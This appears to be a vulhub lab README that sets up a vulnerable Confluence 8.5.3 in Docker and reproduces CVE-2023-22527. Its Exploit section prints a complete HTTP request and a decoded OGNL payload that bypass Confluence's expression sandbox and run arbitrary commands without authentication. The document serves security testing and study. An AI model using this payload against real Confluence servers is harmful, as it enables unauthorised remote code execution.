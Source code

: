 # Atlassian Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2023-22527)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

A OGNL injection vulnerability on versions (8.0 to 8.5.3) of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance.

References:

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.3:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](2.png)

After the version 7.18.0, Confluence introduced a `isSafeExpression` function to protect OGNL injection. Security researcher [Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/) find a way to bypass it through `#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`, the full decoded payloads are here:

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
